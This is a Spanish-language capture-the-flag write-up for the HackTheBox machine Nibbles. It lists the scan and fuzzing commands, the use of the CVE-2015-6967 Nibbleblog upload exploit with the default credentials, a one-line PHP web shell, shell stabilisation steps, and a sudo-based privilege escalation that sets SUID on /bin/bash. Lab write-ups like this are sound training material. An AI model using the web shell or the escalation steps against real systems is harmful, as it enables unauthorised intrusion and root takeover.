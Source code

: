 # Nibbles-HTB
Resolucion de la maquina

## NMAP

```
nmap -sS -Pn -p- -vvv 10.129.78.48 -oG ports
nmap -sSV -p22,80 10.129.78.48 -oN Scan
```

## FFUF

```
ffuf -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ

```

## WFUZZ

```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ
```
## searchsploit

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/067c5f78-efb1-4b02-bbe8-25396bb2ed12)


```
searchsploit nibbleblog
## Examine
searchsploit -x php/remote/38489.rb
```

> https://github.com/dix0nym/CVE-2015-6967

Examinando el exploit vemos que se puede ingresar con el password por nibbles y un usuario que habiamos identificado ya admin.


## RCE

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

```

En el exploit vemos a ruta y ademas que renombra el archivo al de shell.php a image.php.

## Full tty

```
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
xterm
export TERM=xterm
export SHELL=/bin/bash

script /dev/null -c bash
Ctrl+z
styy raw -echo;fg
  reset
  xterm
export TERM=xterm
export SHELL=bash


```


## Privilege Escalation

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/12047cef-97a8-4ca2-b78c-4fc7f5f7666d)

Esto quiere decir que podemos ejecutar como root y sin password monitor.sh

```
mkdir -p personal/stuff
touch monitor.sh

sudo -u root /home/nibble/personal/sutff/monitor.sh

#!/bin/bash

chmod u+s /bin/bash
bash -p # la bandera privilege

```


































